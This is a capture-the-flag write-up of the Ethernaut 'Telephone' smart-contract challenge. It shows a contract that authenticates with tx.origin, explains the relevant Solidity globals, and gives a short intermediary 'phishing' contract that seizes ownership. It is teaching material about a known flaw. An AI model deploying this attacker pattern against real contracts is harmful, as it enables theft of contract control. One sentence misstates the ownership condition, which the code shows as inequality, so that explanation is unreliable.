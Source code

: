 # Challenge 4 - Telephone

## Understanding the code

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Telephone {

  address public owner;

  constructor() {
    owner = msg.sender;
  }

  function changeOwner(address _owner) public {
    if (tx.origin != msg.sender) {
      owner = _owner;
    }
  }
}

```

This is a simple contract but let's understand what the function is doing here.

The function changeOwner which takes in _owner of type address as a parameter basically declares that if the original transaction sender and the sender of the "msg" or the ETH is the same then the _owner address now becomes the new owner.

- ```tx.origin``` is a global variable that refers to the original externally owned account of the transaction and it is of type address. Read the docs about tx.origin [here](https://docs.soliditylang.org/en/v0.8.17/units-and-global-variables.html?highlight=tx.origin)
- ```msg.sender``` is the address of the user that invokes the function. Read the docs about msg.sender [here](https://docs.soliditylang.org/en/v0.8.17/units-and-global-variables.html?highlight=msg.sender)

### What is an Externally Owned Account(EOA)?

EOA is a the user's wallet address. Example: your Metamask account's address is an EOA.
EOAs satisfy the following conditions:
- Only type of account that can initiate a transaction and
- Only type of account that owns a private key

This challenge requires us to make a Phishing Attack on this contract and teach us why one shouldn't use tx.origin to authenticate an account to execute a function.

The following is the code that I used on Remix IDE and injected onto the Telephone.sol contract in order to conduct a Phishing Attack.

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import './Telephone.sol';

contract TelephonePhishing {

    Telephone telephoneContract;

    constructor(address _addr) public{
        telephoneContract = Telephone(_addr);
    }

    function phish(address _addr) public{
        telephoneContract.changeOwner(_addr);
    }
    
}```
